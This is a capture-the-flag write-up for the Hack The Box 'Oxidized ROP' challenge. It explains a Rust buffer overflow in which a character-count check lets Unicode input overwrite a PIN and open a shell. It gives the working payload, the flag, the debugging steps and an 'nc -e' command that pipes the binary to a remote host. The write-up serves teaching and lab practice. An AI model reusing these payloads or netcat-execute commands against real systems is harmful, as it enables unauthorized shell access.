







## Oxidized-ROP

https://app.hackthebox.com/challenges/Oxidized%20ROP

This PWN starts off seeming easily straightforward, then overly difficult (ROP + Unicoding pointers), then easy again once you figure out you wasted a weekend testing something you were absolutely certain about despite having **ZERO** prior experience in Rust.

### Overview

So as you can see by the title of this PWN, "ROP" means return oriented programming. 

<details>
  <summary>Quick disclaimer</summary>
  
  I have no actual experience with ROP exploits.
</details>

<details>
  <summary>Another quick disclaimer</summary>

  This PWN is actually **NOT** a ROP. 
  
  Yeah. 
  
  I don't know why the author titled it this. 
  There exists another vulnerability much easier to exploit. 
  I started Googling and learning all about ROP, but 
  never got to use it. Very anticlimactic...
</details>

<details>
  <summary>TLDR; Payload and flag</summary>
  
  Input this payload into the 'Complete survey' panel:
  ```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
  ```
  The flag:
  ```
  HTB{7h3_0r4n63_cr4b_15_74k1n6_0v3r!}
  ```
</details>

### Reconnaissance

I started off by looking through the provided `oxidized-rop.rs` file.

The only thing I knew about Rust prior to this are the insane 
safety features. 

At line 48 is an unsafe block. This goes against the safety 
features. The code checks that the argument string is 
less than 200 characters (not bytes).

```{r, attr.source='.numberLines startFrom="40"'}
fn save_data(dest: &mut [u8], src: &String) {
    if src.chars().count() > INPUT_SIZE {
        println!("Oups, something went wrong... Please try again later.");
        std::process::exit(1);
    }

    let mut dest_ptr = dest.as_mut_ptr() as *mut char;

    unsafe {
        for c in src.chars() {
            dest_ptr.write(c);
            dest_ptr = dest_ptr.offset(1);
        }
    }
}
```

The `save_data(dest: &mut [u8], src: &String)` function is
called by `present_survey(feedback: &mut Feedback)`:

```{r, attr.source='.numberLines startFrom="69"'}
fn present_survey(feedback: &mut Feedback) {
    // ...
    print!("Statement (max 200 characters): ");
    io::stdout().flush().unwrap();
    let input_buffer = read_user_input();
    save_data(&mut feedback.statement, &input_buffer);
    // ...
}
```

The `Feedback` structure contains an array of 200 bytes:

```{r, attr.source='.numberLines startFrom="3"'}
const INPUT_SIZE: usize = 200;
const PIN_ENTRY_ENABLED: bool = false;

struct Feedback {
    statement: [u8; INPUT_SIZE],
    submitted: bool,
}
```

Both of `INPUT_SIZE` and `PIN_ENTRY_ENABLED` are const; there are
no means to modify them regardless of exploit. 

As you can see, the `Feedback` structure utilizes bytes, 
however the `save_data(dest: &mut [u8], src: &String)` function
checks for `characters`. This will cause a buffer overflow if
the UTF-8 encoded byte count of the survey input exceeds 200 characters 
(or 800 bytes).

In a basic sense, a stack frame, in order of increasing memory address,
is arranged as such:
- Local variables (Relative positions are tied with their order of declaration)
- Return addresses

We can expect something similar to this with our Rust program:
- 200 bytes for survey array
- 1 boolean for submitted
- 4-bytes for login pin
- Return addresses

```{r, attr.source='.numberLines startFrom="125"'}
let mut feedback = Feedback {
    statement: [0_u8; 200],
    submitted: false,
};
let mut login_pin: u32 = 0x11223344;
```

This, of course, is not the exact layout (as we'll find out in a 
minute).

### Debugging

I'll be using a Kali VM to debug this program. 

Open the program with EDB `edb --run oxodized-rop`.

I'm not going to go through the specifics, but I set a breakpoint 
immediately after the stack address for the local variable `login_pin`
was set to `0x11223344` during its definition in `main()`:

.

I did a symbol search for `savedata`, and set a breakpoint 
at the last return of the function,
right after the stack was modified. I continue execution. 

In the console input, I inputted `1` for the survey. 

Generate a pattern with 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
to understand how our input is transformed and overflows:



I pass the generated pattern through the EDB console (a program 
started from the command line with EDB easily allows for console input).

After submitting, the breakpoint triggers, and this is the result:



This is the point where I began the journey to lose my mind
over the span of a weekend.

I was confused as of why every thing was 4-byte aligned.

I looked at the code, and ***assumed*** that the Rust code
was converting everything to UTF-encoded bytes. In
retrospect, I realize that the inputted characters, UTF-8
characters, were being converted to Unicode codepoints,
basically the ID of the Unicode character.

For some reason `pattern_offset` was unable to locate the offset,
but I easily found the offset to be 122, where the next 4-byte
integer is our pin location.

I started doing tests, such as inputting UTF-8 characters, 
and wondering why there were no signs of UTF-8 bytes anywhere
in the overflowed buffer.

This is where I Googled "Oxidized ROP writeup". The keyword
`ROP` brought up some specific exploits, so I figured this was
the way to do it, with an ROP exploit. I started learning about
ROP exploits, stack manipulation, return pops, ROP gadgets...

Near the end I was getting very angery, so decided to 
ask phind model what was up. I fed it my results of some of 
the stack manipulation, asking why the inputted UTF-8 characters 
were giving these weird but consistent values. It told me 
Unicode codepoints. 

With this sliver of hope, I test a specific payload containing
2 UTF-8 characters near the end (`€ƒ`):
```
a_b.c_d.e_f.g_h.i_j.k_l.m_n.o_p.q_r.s_t.u_v.w_x.y_z.A_B.C_D.E_F.G_H.I_J.K_L.M_N.O_P.Q_R.S_T.U_V.W_X.Y_Za,b.c,d.e,f.g,h.i,j€ƒ
```
I used this website to test characters https://unicode.scarfboy.com/?s=%E2%82%AC%C6%92




Sure enough, they matched.

### Weaponization

With this knowledge, I now needed to overwrite the
pin value with 123456 as required by the config function:
```{r, attr.source='.numberLines startFrom="3"'}
fn present_config_panel(pin: &u32) {
    use std::process::{self, Stdio};
    
    // the pin strength isn't important since pin input is disabled
    if *pin != 123456 {
        println!("Invalid Pin. This incident will be reported.");
        return;
    }
    
    process::Command::new("/bin/sh")
        .stdin(Stdio::inherit())
        .stdout(Stdio::inherit())
        .output()
        .unwrap();
    }
}
```
I need the codepoint for decimal represented `123456`, in hex is
`1E240`.

Searching for U+1E240 on the page brings up this:

I copy the character and prepare my new payload:



I paste this payload into the survey:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
```

Then input 2 to take me to the "config". 

Then do `la -la`:



PWNED. 

Given this is my own VM, it's time to write a Python script to 
do this automatically on the remote HTB server.

### Exploitation

I decided to test things in a backwards sort-of way,
with a Python script that acts as the server on
my Windows machine, and Netcat on Kali as the client.

Make sure your interfaces are correct (I did host-only on VMnet1).
I ran the Python script first, then started the client:
`nc -e /home/kali/oxidized/oxidized-rop 192.168.190.1 2463`

https://github.com/PeriodicSeizures/CTF-Writeups/blob/43046f0deb92135bfaaf3a64b9efcbd6cfb4c1c7/HTB/Challenges/Pwn/Oxidized%20ROP/exploit.py#L33-L41

I experimented with things and used Wireshark to perfect the 
payload and such.

https://github.com/PeriodicSeizures/CTF-Writeups/blob/main/HTB/Challenges/Pwn/Oxidized%20ROP/exploit.pcapng

Feel free to experiment with the script as I added some debug
stuff during my tests that are commented out.
